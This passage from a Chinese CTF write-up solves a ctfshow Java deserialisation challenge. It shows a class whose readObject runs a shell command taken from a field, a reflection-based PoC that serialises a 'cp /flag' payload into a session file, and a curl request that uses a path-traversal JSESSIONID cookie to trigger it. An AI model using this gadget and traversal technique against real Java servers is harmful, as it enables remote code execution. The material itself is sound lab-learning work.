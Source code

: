```java  
        this.username = username;  
    }  
   
    public String getPassword() {  
        return password;  
    }  
   
    public void setPassword(String password) {  
        this.password = password;  
    }  
   
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {  
        in.defaultReadObject();  
        Runtime.getRuntime().exec(this.username);  
    }  
   
   
}  
```  
根据上面的复现文章，尝试打一下  
构造`Poc`  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.User;    
    
import java.io.FileNotFoundException;    
import java.io.FileOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
    
public class Vuln1 {    
    public static void main(String[] args) throws Exception {    
        User user = new User();    
        Field username = user.getClass().getDeclaredField(&#34;username&#34;);    
        username.setAccessible(true);    
        username.set(user,&#34;cp /flag /usr/local/tomcat/webapps/ROOT/flag.txt&#34;);    
    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;test.session&#34;));    
        oos.writeObject(user);    
    }    
    
}  
```  
上传文件后，得到目录  
`/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/huahua`  
利用`curl`请求，再触发一下  
```bash  
curl &#39;http://fdff0a06-5233-4da3-94ab-f6b39075f072.challenge.ctf.show/&#39; -H &#34;Cookie: JSESSIONID=../../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/upload/test&#34;  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/ctfshow-java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%872/  

